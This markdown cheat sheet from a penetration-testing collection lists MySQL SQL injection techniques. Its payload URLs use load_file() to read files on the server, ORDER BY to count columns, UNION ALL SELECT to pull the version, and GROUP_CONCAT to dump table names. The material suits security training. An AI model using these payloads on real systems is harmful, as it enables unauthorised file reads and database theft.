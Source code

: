 # MySQL Functions
This sheet serves as a list of functions to be leveraged during a successful MySQL SQL injection attack.
## LOAD_FILE()
We may be able to read files on the target file system using the MySQL `load_file()` function like so,
```
https://127.0.0.1/comments.php?id=1337 union all select 1,2,3,4,load_file("C:\users\username\Desktop\user.txt"), 6
```
Becareful about how you use single and double quotes. We must know where the file resides on the file system before attmpting to read it.
## ORDER BY
We can oftent use the SQL statement `ORDER BY` to gather how many columns the current database table has,
```
https://127.0.0.1/comments.php?id=1337 order by N
```
Keep increasing `N` in the above statment until we get an error, or instant HTTP request inthe case of a [Blind SQL Injection Attack](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/SQL%20Injection/sql-injection-blind.md).
## UNION ALL SELECT
The SQL statement `UNION ALL SELECT` can often be used after we get the column count to see which column we can injection nested statements and other data into. For instance, say that after we successfully perfomred an SQL Injection attack and got an `ORDER BY 7`, meaning `7` columns, we can then attempt the following to try to glean the database version by injecting a nested statement into one of the columns,
```
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT @@version,1,1,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,@@version,1,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,@@version,1,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,@@version,1,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,@@version,1,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,1,@@version,1
https://127.0.0.1/comments.php?id=1337 UNION ALL SELECT 1,1,1,1,1,1,@@version
```
This can easily be automated by scripting the process using `curl`.
## GROUP CONCAT
Group concatenation of records can be achieved using the `GROUP_CONCAT` stored procedure in MySQL,
```
MariaDB [security]> select group_concat(distinct table_name separator ', ') from information_schema.tables where table_schema = 'security';
+--------------------------------------------------+
| group_concat(distinct table_name separator ', ') |
+--------------------------------------------------+
| emails, referers, uagents, users                 |
+--------------------------------------------------+
1 row in set (0.00 sec)

```
This way, we can acheive all records as a single string for simple SQL injection of a given column.
